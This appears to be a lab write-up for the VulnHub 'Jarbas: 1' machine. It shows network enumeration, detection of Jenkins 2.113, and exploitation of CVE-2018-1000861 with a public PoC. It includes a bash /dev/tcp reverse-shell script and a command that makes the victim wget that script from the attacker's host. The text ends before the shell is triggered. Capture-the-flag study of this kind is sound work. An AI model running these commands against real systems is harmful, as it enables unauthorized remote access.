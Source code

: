 # Jarbas: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.240 00:0c:29:e1:f2:ed       VMware, Inc.
192.168.127.254 00:50:56:e5:26:19       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.055 seconds (124.57 hosts/sec). 3 responded
```

The IP address is `192.168.127.240`

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -v -oN nmap.out 192.168.127.240

Nmap scan report for 192.168.127.240
Host is up (0.00088s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
MAC Address: 00:0C:29:E1:F2:ED (VMware)
```

We immediately explore port 80 and 8080, in port 80 there is just a normal website that leads to nothing but

port 8080 serves a jenkins server with a login form. investigating internet to find the version of jenkin i found

this [guide](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security) which says navigating to `/oops` shows the version

of jenkins so :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a3345335-5afc-4c3e-9bc3-9549de8f0c8c)
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d15f5741-2f13-4c0a-b840-e274631e23b9)

jenkins version is `2.113`, i just searched if there is any exploit for this version and i found this [link](https://github.com/gquere/pwn_jenkins#authenticationacl-bypass-cve-2018-1000861-jenkins-21501)

thas says there is a Authentication/ACL bypass if this command returns a valid data :

```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

i used this command against the target and i got a response :

```bash
root@kali: curl -k -4 -s http://192.168.127.240:8080/securityRealm/user/admin/search/index?q=a

<!DOCTYPE html><html><head resURL="/static/f3ad8932" data-rooturl="" data-resurl="/static/f3ad8932">

<title>Search for 'a' [Jenkins]</title><link rel="stylesheet" href="/static/f3ad8932/css/layout-common.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/style.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/color.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/responsive-grid.css" type="text/css" /><link rel="shortcut icon" href="/static/f3ad8932/favicon.ico" type="image/vnd.microsoft.icon" /><link color="black" rel="mask-icon" href="/images/mask-icon.svg" /><script>var isRunAsTest=false; var rootURL=""; var resURL="/static/f3ad8932";</script><script src="/static/f3ad8932/scripts/prototype.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/behavior.js" type="text/javascript"></script><script src='/adjuncts/f3ad8932/org/kohsuke/stapler/bind.js' type='text/javascript'></script><script src="/static/f3ad8932/scripts/yui/yahoo/yahoo-min.js"></script><script src="/static/f3ad8932/scripts/yui/dom/dom-min.js"></script><script src="/static/f3ad8932/scripts/yui/event/event-min.js"></script><script src="/static/f3ad8932/scripts/yui/animation/animation-min.js"></script><script src="/static/f3ad8932/scripts/yui/dragdrop/dragdrop-min.js"></script><script src="/static/f3ad8932/scripts/yui/container/container-min.js"></script><script src="/static/f3ad8932/scripts/yui/connection/connection-min.js"></script><script src="/static/f3ad8932/scripts/yui/datasource/datasource-min.js"></script><script src="/static/f3ad8932/scripts/yui/autocomplete/autocomplete-min.js"></script><script src="/static/f3ad8932/scripts/yui/menu/menu-min.js"></script><script src="/static/f3ad8932/scripts/yui/element/element-min.js"></script><script src="/static/f3ad8932/scripts/yui/button/button-min.js"></script><script src="/static/f3ad8932/scripts/yui/storage/storage-min.js"></script><script src="/static/f3ad8932/scripts/hudson-behavior.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/sortable.js" type="text/javascript"></script><script>crumb.init("Jenkins-Crumb", "8f6180d50a5ba4e2893af9f93c568926");</script><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/assets/skins/sam/skin.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/skins/sam/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/button/assets/skins/sam/button.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/menu/assets/skins/sam/menu.css" type="text/css" /><meta name="ROBOTS" content="INDEX,NOFOLLOW" /><meta name="viewport" content="width=device-width, initial-scale=1" /><script src="/static/f3ad8932/jsbundles/page-init.js" type="text/javascript"></script></head><body data-model-type="hudson.search.Search" id="jenkins" class="yui-skin-sam two-column jenkins-2.113" data-version="2.113"><a href="#skip2content" class="skiplink">Skip to content</a><div id="page-head"><div id="header"><div class="logo"><a id="jenkins-home-link" href="/"><img src="/static/f3ad8932/images/headshot.png" alt="title" id="jenkins-head-icon" /><img src="/static/f3ad8932/images/title.png" alt="title" width="139" id="jenkins-name-icon" height="34" /></a></div><div class="login"> <a href="/login?from=%2FsecurityRealm%2Fuser%2Fadmin%2Fsearch%2Findex"><b>log in</b></a></div><div class="searchbox hidden-xs"><form method="get" name="search" action="/securityRealm/user/admin/search/" style="position:relative;" class="no-json"><div id="search-box-minWidth"></div><div id="search-box-sizer"></div><div id="searchform"><input name="q" placeholder="search" id="search-box" class="has-default-text" value="a" /> <a href="https://jenkins.io/redirect/search-box"><img src="/static/f3ad8932/images/16x16/help.png" style="width: 16px; height: 16px; " class="icon-help icon-sm" /></a><div id="search-box-completion"></div><script>createSearchBox("/securityRealm/user/admin/search/");</script></div></form></div></div><div id="breadcrumbBar"><tr id="top-nav"><td id="left-top-nav" colspan="2"><link rel='stylesheet' href='/adjuncts/f3ad8932/lib/layout/breadcrumbs.css' type='text/css' /><script src='/adjuncts/f3ad8932/lib/layout/breadcrumbs.js' type='text/javascript'></script><div class="top-sticker noedge"><div class="top-sticker-inner"><div id="right-top-nav"><div id="right-top-nav"><div class="smallfont"><a href="?auto_refresh=true">ENABLE AUTO REFRESH</a></div></div></div><ul id="breadcrumbs"><li class="item"><a href="/" class="model-link inside">Jenkins</a></li><li href="/" class="children"></li><li class="item"><a href="/securityRealm/" class=" inside">Jenkins’ own user database</a></li><li class="separator"></li><li class="item"><a href="/securityRealm/user/admin/" class="model-link inside">admin</a></li><li class="separator"></li></ul><div id="breadcrumb-menu-target"></div></div></div></td></tr></div></div><div id="page-body" class="clear"><div id="side-panel"></div><div id="main-panel"><a name="skip2content"></a><h1>Search for 'a'</h1><ol><li id="item_admin"><a href="?q=admin">admin</a></li><li id="item_master"><a href="?q=master">master</a></li></ol></div></div><footer><div class="container-fluid"><div class="row"><div class="col-md-6" id="footer"></div><div class="col-md-18"><span class="page_generated">Page generated: Nov 8, 2023 9:19:37 AM BRST</span><span class="jenkins_ver"><a href="https://jenkins.io/">Jenkins ver. 2.113</a></span></div></div></div></footer></body></html>
```

so now i'm pretty sure that this version of jenkins is vulnerable, so again i searched to find any exploit for this vulnerability (CVE-2018-1000861)

and i found [this](https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/poc.py) exploit on github which is just a PoC, but i used it in a creative way

just downloaded the python file and run it against the target :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'whoami'                
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

with this output i'm now 100% sure that i can get a shell but this script returns no command output but it realy executes the command on the server

so i created a reverse shell on my kali machine and served it with python web server :

```bash
root@kali: cat shell.sh                                                                       
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'

root@kali: python3 -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and then used the `poc.py` file to download the shell.sh on the victim :

```bash
python2 poc.py http://192.168.127.240:8080/ 'wget http://192.168.127.128/shell.sh -P /dev/shm'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and then start a listener on your system and call the sell.sh file on the victim :

```bash

```







